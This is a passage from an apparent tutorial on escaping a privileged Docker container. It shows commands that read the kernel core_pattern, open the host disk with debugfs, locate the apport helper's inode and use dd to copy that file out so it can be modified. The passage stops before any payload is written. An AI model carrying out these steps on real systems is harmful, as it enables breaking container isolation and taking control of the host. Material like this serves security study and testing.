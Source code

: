 root@ba3398f7201b:/tmp# cat /proc/sys/kernel/core_pattern
|/usr/share/apport/apport %p %s %c %d %P %E
So, whenever a core dump is generated, the kernel would execute the apport file from /usr/share/.

We should now have access to the host’s hard disk and can check to see if we can read the apport file and then change it.

Stage 3: Access and Take Over the apport file
In this stage we use debugfs – a special file system debugging utility, which supports reading and writing directly from a hard drive device.

root@ba3398f7201b:/tmp# debugfs /dev/sda5
debugfs 1.42.12 (29-Aug-2014)
debugfs:
We can use debugfs prompt just as we would use the shell prompt. So, we change into /usr/share/apport/:

debugfs: cd /usr/share/apport
And then use stat to obtain information on the apport file:

debugfs:  stat apport
Inode: 1180547   Type: regular    Mode:  0755   Flags: 0x80000
Generation: 3835493899    Version: 0x00000000:00000001
User:     0   Group:     0   Size: 29776
File ACL: 0    Directory ACL: 0Links: 1   Blockcount: 64
Fragment:  Address: 0    Number: 0    Size: 0
 ctime: 0x5fe09286:061f76dc -- Mon Dec 21 12:18:14 2020
 atime: 0x5fe1e665:32c27c14 -- Tue Dec 22 12:28:21 2020
 mtime: 0x5fe09286:061f76dc -- Mon Dec 21 12:18:14 2020
crtime: 0x5fb63c3a:359629b8 -- Thu Nov 19 09:34:50 2020
Size of extra inode fields: 32
EXTENTS:
(0-7):5330129-5330136
We are going to use this information to read and write the apport file from the underlying host hard disk.

To do that, we will use the Linux utility dd, which allows us to read and write specific information from Linux devices.

root@ba3398f7201b:/tmp# dd if=/dev/sda5 skip=42641032  count=64  of=/tmp/apport
Now we have the entire apport file in our container’s /tmp/apport, let’s see what’s inside:

root@ba3398f7201b:/tmp# cat apport | more
#!/usr/bin/python3
# Collect information about a crash and create a report in the directory
# specified by apport.fileutils.report_dir.
# See https://wiki.ubuntu.com/Apport for details.
#
# Copyright (c) 2006 - 2016 Canonical Ltd.
# Author: Martin Pitt <martin.pitt@ubuntu.com>
#
# This program is free software; you can redistribute it and/or modify it